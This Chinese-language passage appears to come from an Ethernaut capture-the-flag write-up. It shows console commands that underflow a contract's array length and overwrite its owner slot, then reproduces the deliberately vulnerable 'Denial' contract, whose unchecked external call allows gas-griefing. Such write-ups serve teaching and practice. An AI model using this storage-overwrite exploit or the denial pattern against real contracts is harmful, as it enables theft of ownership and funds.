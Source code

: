 控制台执行

```js
await contract.retract()//长度下溢
await web3.eth.getStorageAt(instance, 1, function(x, y) {console.info(y)})//查看长度
'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
await contract.revise("xxx","0x000000000000000000000001<player.address>")//改变owner
```

## Denial

阻止向owner转账

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
